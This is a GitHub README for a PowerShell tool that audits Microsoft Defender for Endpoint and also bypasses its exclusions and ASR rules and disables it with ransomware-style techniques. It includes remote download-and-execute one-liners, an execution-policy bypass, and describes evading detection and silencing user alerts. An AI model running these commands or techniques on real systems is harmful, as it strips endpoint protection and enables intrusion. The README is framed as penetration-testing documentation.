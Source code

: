 # fkmde

![image](https://github.com/user-attachments/assets/8fa1fc4b-43c1-4789-8184-0138bd81d0b1)

`fkmde` is a specialized powershell script designed to evaluate the configuration and operational security of Microsoft Defender for Endpoint (MDE). It aids security professionals, system administrators, and penetration testers in identifying potential vulnerabilities and misconfigurations that might be exploited in a real-world attack.

## Features
- **Defender Full Audit**: Quickly assesses the status of real-time protection, active/passive mode, tamper protection, bitlocker, memory integrity and exclusion settings to detect overly permissive rules that might allow malware to bypass scanning.
- **Bypass Exclusions and ASR Rules**: Utilizes Event 1121 and 5007 to bypass the protected exclusions list in MDE.
- **Exclusion Enumeration**: Allows for low privilege exclusion enumeration, without relying on event log bypass.
- **Defender Tampering**: PendingFileRenameOperations + Junctions EDR Disable
- **Defender Killing**: The script uses techniques similar to those used by Clop Ransomware to disable and evade Microsoft Defender.

## Usage

```powershell
fkmde.ps1
fkmde.ps1 --enum <path> [depth]
fkmde.ps1 --kill                     # Run the script from URL
fkmde.ps1 --kill <path>              # Specify a directory for the script to download & execute from
```

- **`--kill` Parameter**  
  This parameter triggers a script that implements techniques similar to those used by Clop Ransomware to disable and evade Microsoft Defender. The script is not hardcoded into `fkmde`, but dynamically fetched from an external source to avoid pre-execution detection. This should be used *only* in secure, isolated environments for research purposes. It is possible to specify a custom directory using the optional <path> argument to download and run the kill script.

- **`--enum <path> [depth]` Parameter**  
  This parameter performs a comprehensive enumeration of directories by using `MpCmdRun.exe`, scanning for exclusions or misconfigurations without relying on event logs or admin permissions. The script dynamically disables Windows Defender popup notifications during execution to provide a seamless experience without alerting users. Upon completion, it safely re-enables the notifications.
  
> [!NOTE]
> Any scripts tampering with the defender are not directly embedded in `fkmde`. Instead, they are loaded dynamically to minimize detection by Defender for Endpoint when the tool is used solely for enumeration purposes.

The script can also be run with and without parameterized modes directly from github.

```powershell
  // basic method with iex
  Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1')

  // parameterized mode with iex and irm
  Invoke-Expression "& { $(Invoke-RestMethod https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1) } --enum C:\Windows 3"
```

> By default, the PowerShell [execution policy](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies) is set to `Restricted` on clients, and `RemoteSigned` on servers, when a new `powershell.exe` process is started. These policies block the execution of (unsigned) scripts, but they can be overriden within the current scope. However, this trick does not work when the execution policy is enforced through a GPO. In this case, after starting a new PowerShell session, you can load the script with the second command.

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
Get-Content .\fkmde.ps1 | Out-String | Invoke-Expression
```

![image](https://github.com/user-attachments/assets/4fd4b81f-c8a0-4a35-a4f8-2a688df8c5a8)

![image](https://github.com/user-attachments/assets/f722aaed-7dec-47ac-92a4-344cbcd5a7d7)

![image](https://github.com/user-attachments/assets/d6ed731a-4737-46c8-91d0-506f49e65f4f)

![image](https://github.com/user-attachments/assets/82f87057-d573-43ce-8745-0382374b5dd0)

![image](https://github.com/user-attachments/assets/dd051244-e1aa-46aa-a0d5-0bd0298a234a)

## Disclaimer
This tool is intended for educational and security research purposes only. The author is not responsible for misuse or for any damage that may occur from using this tool. It is the end user's responsibility to comply with all applicable laws and regulations. The use of this tool against targets without prior mutual consent is illegal.

## Credits
- [VakninHai](https://x.com/VakninHai/status/1796628601535652289/photo/1) - Privilege Bypassing through Windows Event 5007
- [ViziosDe](https://raw.githubusercontent.com/ViziosDe/MDExclusionParser/main/Invoke-MDExclusionParser.ps1) - Privilege Bypassing through Windows Event 1121
- [Friends Security](https://github.com/Friends-Security/SharpExclusionFinder) - Exclusions through MpCmdRun.exe
- [rad9800](https://github.com/rad9800/FileRenameJunctionsEDRDisable) - PendingFileRenameOperations + Junctions EDR Disable
